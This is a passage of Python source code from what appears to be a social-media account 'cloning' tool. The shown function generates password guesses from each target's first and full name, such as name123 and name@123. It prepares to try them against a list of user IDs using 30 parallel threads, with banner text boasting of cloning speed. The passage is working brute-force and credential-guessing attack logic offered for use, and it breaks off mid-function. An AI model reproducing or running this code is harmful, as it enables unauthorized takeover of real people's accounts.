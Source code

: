 #-------------------[ BAGIAN-WORDLIST ]------------#
 
def passwrd():
    os.system('clear')
    print(logo)
    print(f"\033[97;1m[\033[92;1m+\033[97;1m] \033[1;92mUSER NAME\033[1;91m :\033[1;96m "+uname)
    print("\033[97;1m[\033[92;1m•\033[97;1m] \033[10;93mTODAY'S DATE :\033[1;92m "+date)
    print('\033[97;1m[\033[92;1m+\033[97;1m] \033[1;92mYOUR TOTAL IDz \033[0;97m:\033[1;92m ',str(len(id)))
    print("\033[97;1m[\033[92;1m•\033[97;1m] \x1b[38;5;208mSTARTED YOUR CLONING TIME\033[0;97m :> \033[1;92m"+time.strftime("%H:%M")+" "+ tag)
    print("\033[97;1m[\033[92;1m+\033[97;1m] \033[10;95mCLONING SPEED SUPER FAST-!✅")
    print(f'\033[97;1m[\033[92;1m•\033[97;1m] \033[1;92mUse Flight Mode For Speed Up ')
    print('\033[0;97m===============================================')
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf)<6:
                if len(frs)<3:
                    pass
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'12345')
                    pwv.append(frs+'123456')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@@@')
                    pwv.append(frs+'@@@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'111')
            else:
                if len(frs)<3:
                    pwv.append(nmf)
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'12345')
                    pwv.append(frs+'123456')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@@@')
                    pwv.append(frs+'@@@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'111')
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            else:pass
            if 'mobile' in method: